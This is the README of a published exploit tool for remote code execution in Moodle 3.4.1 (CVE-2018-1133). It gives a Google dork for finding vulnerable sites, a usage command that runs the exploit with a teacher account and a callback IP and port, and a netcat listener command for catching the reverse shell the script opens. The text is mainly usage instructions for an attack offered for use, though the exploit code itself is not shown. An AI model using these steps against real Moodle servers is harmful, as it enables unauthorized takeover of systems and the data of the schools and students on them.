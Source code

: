 # Moodle Exploit

* Exploit Title: Moodle v3.4.1 RCE Exploit
* Google Dork: inurl:"/course/jumpto.php?jump="
* Date: 15 March 2019
* Exploit Author: Darryn Ten
* Vendor Homepage: https://moodle.org
* Software Link: https://github.com/moodle/moodle/archive/v3.4.1.zip
* Version: 3.4.1 (Possibly < 3.5.0 and maybe even 3.x)
* Tested on: Linux with Moodle v3.4.1
* CVE : CVE-2018-1133

A user with the teacher role is able to execute arbitrary code.

# Usage

`php MoodleExploit.php url=http://example.com user=teacher pass=password ip=10.10.10.10 port=1010 course=1`

```
user       The account username
pass       The password to the account
ip         Callback IP
port       Callback Port
course     Valid course ID belonging to the teacher
```

Make sure you're running a netcat listener on the specified port before
executing this script.

`nc -lnvp 1010`

This will attempt to open up a reverse shell to the listening IP and port.

# Notes

This exploit is based on information provided by Robin Peraglie.

Additional Reading: https://blog.ripstech.com/2018/moodle-remote-code-execution

